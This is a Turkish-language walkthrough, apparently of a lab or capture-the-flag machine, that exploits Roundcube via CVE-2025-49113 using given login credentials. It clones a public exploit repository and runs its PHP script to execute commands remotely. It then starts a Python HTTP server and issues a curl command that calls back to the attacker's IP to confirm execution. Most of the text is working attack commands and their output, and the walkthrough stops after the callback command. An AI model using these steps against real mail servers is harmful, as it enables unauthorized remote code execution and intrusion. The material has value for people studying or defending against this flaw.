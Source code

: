 Zafiyetli bir makine üzerinden sömürü yöntemlerini adım adım açıklayarak gerçekleştireceğiz. Sömürü aşamasına geçmeden önce elimizde bu kullanıcı bilgileri bulunmaktadır. `tyler`:`LhKL1o9Nm3X2`

Bize verilen kullanıcı adı ve parola bilgisi ile sisteme giriş yaptıktan sonra **About** sayfasına tıklıyoruz ve hangi versiyonun kullanıldığını tespit ediyoruz.

![Version](version.png)

Bu versiyonun zafiyetli olduğunu bildiğimiz için şimdi sömürü aşamasına geçebiliriz. Zafiyeti sömürmek için bu repoyu kullanacağız : <a href="https://github.com/hakaioffsec/CVE-2025-49113-exploit" target="_blank" rel="noopener noreferrer">https://github.com/hakaioffsec/CVE-2025-49113-exploit</a> 

İlk olarak repoyu kendi sistemimize klonlayarak başlıyoruz:

```bash
git clone https://github.com/hakaioffsec/CVE-2025-49113-exploit.git
```

Şimdi klasörün içerisine giriyoruz:

```bash
cd CVE-2025-49113-exploit
```

Bu PHP betiğini aşağıdaki şekilde kullanacağımızı öğreniyoruz.

```php
php CVE-2025-49113.php <url> <username> <password> <command>
```

Parametreleri tek tek vererek aşağıdaki gibi betiği çalıştırıyoruz.

```bash
php CVE-2025-49113.php http://mail.redacted.com tyler LhKL1o9Nm3X2 "whoami"
```

Sonuç:

```bash
[+] Starting exploit (CVE-2025-49113)...
[*] Checking Roundcube version...
[*] Detected Roundcube version: 10610
[+] Target is vulnerable!
[+] Login successful!
[*] Exploiting...
[+] Gadget uploaded successfully!
```

Verdiğimiz komutun başarılı bir şekilde çalıştığını görüyoruz ancak cevap bize yansımadığı için bunu curl komutu kullanarak bizim sistemimize yönlendirmemiz gerekiyor. Bunun için **ifconfig** komutu ile IP adresimizi öğreniyoruz. Daha sonra aşağıdaki şekilde bir python sunucusu açıyoruz.

```bash
python3 -m http.server 8081
```

Şimdi aşağıdaki komutu çalıştırıyoruz ve sunucumuza istek gelip gelmeyeceğine bakıyoruz.

```bash
php CVE-2025-49113.php http://mail.redacted.com tyler LhKL1o9Nm3X2 "curl http://10.10.14.147:8081/?test"
```
